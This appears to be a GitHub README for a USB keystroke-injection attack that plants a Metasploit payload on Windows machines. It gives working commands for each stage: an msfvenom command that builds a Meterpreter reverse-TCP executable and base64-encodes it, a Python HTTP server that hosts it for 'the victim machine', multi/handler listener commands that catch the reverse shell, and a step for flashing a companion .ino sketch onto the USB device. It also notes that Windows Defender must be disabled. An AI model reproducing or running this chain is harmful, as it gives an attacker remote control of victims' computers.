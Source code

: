 # Metasploit Download

Throughout this tutorial I will refer to `0.0.0.0`. When you see `0.0.0.0` you should replace it with your IP address.

You must have the [metasploit-framework](https://github.com/rapid7/metasploit-framework) and python installed in order for this to work. Installed by default in Kali Linux.

Please note that Windows Defender will stop this script from running. Windows Defender must be disabled for this script to work.

## Creating Payload

This command will create a Windows executable file, encoded in base64. Make sure to replace `0.0.0.0` with your IP.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f exe -o winner.exe
base64 winner.exe > winner.exe.b64
```

## Hosting Payload

This command creates a local server on your device that the victim machine can download the payload from.

```bash
python -m http.server 8888
```

## Metasploit Listener

The following is a sequence of commands to be run. This will prepare you to receive the reverse shell. Make sure to replace `0.0.0.0` with your IP.

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/x64/meterpreter_reverse_tcp`
- `setg LHOST 0.0.0.0`
- `setg LPORT 4444`
- `exploit`


## Programming USB

Open [metasploit-download.ino](metasploit-download.ino), go to line 24, replace `0.0.0.0` with your IP, then upload your script to the USB. Insert __responsibly and legally__ please!

